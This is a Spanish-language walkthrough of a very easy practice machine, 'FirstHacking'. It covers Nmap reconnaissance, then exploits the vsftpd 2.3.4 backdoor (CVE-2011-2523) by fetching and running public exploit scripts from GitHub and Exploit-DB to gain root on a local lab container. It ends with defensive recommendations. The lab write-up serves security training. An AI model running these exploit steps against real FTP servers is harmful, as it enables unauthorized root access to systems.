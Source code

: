 # 🖥️ **Máquina: FirstHacking**  
- **🔹 Dificultad:** Muy Fácil  
- **📌 Descripción:** Máquina de práctica enfocada en la explotación de un servicio FTP vulnerable (vsftpd 2.3.4).  
- **🎯 Objetivo:** Obtener acceso no autorizado a través de una vulnerabilidad conocida.

---

## 🚀 **Despliegue de la Máquina**

1. **Descarga y descompresión:**  
   Primero descargamos la máquina vulnerable y la descomprimimos con el comando:
   ```bash
   unzip firsthacking.zip
   ```

2. **Ejecución de la máquina:**  
   Ejecutamos el entorno con:
   ```bash
   sudo bash auto_deploy.sh firsthacking.tar
   ```

   ![](/FirstHacking/Imagenes/Maquina.png)  
   ![](/FirstHacking/Imagenes/Activar.jpeg)

3. **Verificación de conectividad:**  
   Comprobamos que la máquina esté activa con un `ping` a su IP:
   ```bash
   ping -c4 172.17.0.2
   ```

   ![](/FirstHacking/Imagenes/Ping.jpeg)

---

## 🔍 **Reconocimiento**

1. **Escaneo de puertos (Nmap):**  
   Utilizamos Nmap para identificar puertos abiertos:
   ```bash
   sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
   ```

   ![](/FirstHacking/Imagenes/Puertos.jpeg)

2. **Análisis de servicios y versiones:**  
   Luego escaneamos los puertos detectados para obtener más información sobre los servicios:
   ```bash
   nmap -sC -sV -p 21 172.17.0.2 -oN target.txt
   ```

   > ✨ *Nota:* Puedes encontrar más detalles sobre cómo automatizar y optimizar escaneos Nmap en [nmap-escaneos-y-funciones](#).

   ![](/FirstHacking/Imagenes/Servicios.jpeg)

---

## 💥 **Explotación**

### 🔸 Servicio identificado: **FTP (vsftpd 2.3.4)**  
Este servicio es conocido por tener una puerta trasera (backdoor) introducida maliciosamente en versiones comprometidas.

#### 📌 Opción 1: Usar un script de GitHub
1. Clonamos el repositorio del exploit:
   ```bash
   git clone https://github.com/nobodyatall648/CVE-2011-2523
   cd CVE-2011-2523
   ```

2. Ejecutamos el exploit:
   ```bash
   python3 vsftpd_2.3.4_exploit.py 172.17.0.2
   ```

   ![](/FirstHacking/Imagenes/Git.jpeg)  
   ![](/FirstHacking/Imagenes/Exploit.jpeg)

#### 📌 Opción 2: Usar `searchsploit` (Exploit-DB)
1. Buscar la vulnerabilidad:
   ```bash
   searchsploit vsftpd 2.3.4
   ```

2. Copiar el exploit al directorio actual:
   ```bash
   searchsploit -m unix/remote/49757.py
   ```

3. Ejecutar el script:
   ```bash
   python3 49757.py 172.17.0.2
   ```

   ![](/FirstHacking/Imagenes/Metododos.jpeg)  
   ![](/FirstHacking/Imagenes/Resultado.jpeg)

---

## ✅ **Resultado Final**

La ejecución del exploit proporciona acceso no autorizado al sistema como **usuario root** a través del servicio FTP, logrando así comprometer la máquina con éxito.

---

## 🛡️ **Recomendaciones**

- **Actualizar software vulnerable:** Evitar el uso de versiones antiguas de servicios como vsftpd. La versión 2.3.4 contiene una puerta trasera introducida maliciosamente.
- **Monitoreo de servicios expuestos:** Limitar el acceso a servicios innecesarios y configurar firewalls para reducir la superficie de ataque.
- **Auditorías periódicas:** Realizar escaneos de seguridad regulares para identificar vulnerabilidades conocidas.
- **Uso de honeypots:** En entornos controlados, se puede usar esta vulnerabilidad como señuelo educativo o de detección de intrusos.

---

## 📚 **Aprendizajes Clave**

- La herramienta **Nmap** es fundamental para el reconocimiento de servicios y detección temprana de vectores de ataque.
- Las bases de datos como **Exploit-DB** y herramientas como **Searchsploit** permiten identificar rápidamente vulnerabilidades conocidas.
- La explotación de **vsftpd 2.3.4** demuestra la importancia de la gestión de versiones y parches de seguridad.
- Usar scripts existentes requiere comprensión previa de su funcionamiento para evitar errores o mal uso.
